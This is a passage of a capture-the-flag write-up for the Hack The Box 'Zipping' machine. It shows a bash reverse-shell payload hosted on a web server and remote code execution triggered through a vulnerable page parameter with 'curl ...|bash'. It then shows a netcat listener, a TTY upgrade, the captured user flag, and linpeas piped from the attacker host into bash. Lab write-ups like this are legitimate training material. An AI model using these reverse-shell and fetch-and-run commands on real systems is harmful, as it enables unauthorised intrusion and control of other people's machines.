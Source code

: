 Setup web server to host reverse shell

```bash
mkdir -p www&&cd www
echo '/bin/bash -i >& /dev/tcp/10.10.16.16/1111 0>&1' > index.html
python -m http.server 80
```

Get reverse shell

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping]
└─$ http 'http://zipping.htb/shop/index.php?page=/var/lib/mysql/xx&0=curl 10.10.16.16|bash'
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.50.229] 44990
bash: cannot set terminal process group (1124): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<op$ python3 -c 'import pty; pty.spawn("/bin/bash")'
rektsu@zipping:/var/www/html/shop$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Zipping]
└─$ stty raw -echo;fg
[2]  - continued  nc -lvnp 1111

rektsu@zipping:/var/www/html/shop$ export TERM=xterm
rektsu@zipping:/var/www/html/shop$ id
id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
rektsu@zipping:/var/www/html/shop$ cat ~/user.txt
cat ~/user.txt
365f8c94776915650de70c8312c875f3
```


# Root Flag
---

## From rektsu to root

Run linpeas in background

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping]
└─$ rlwrap nc -lvnp 1111
listening on [any] 1111 ...
curl 10.10.16.16/linpeas.sh|bash
```
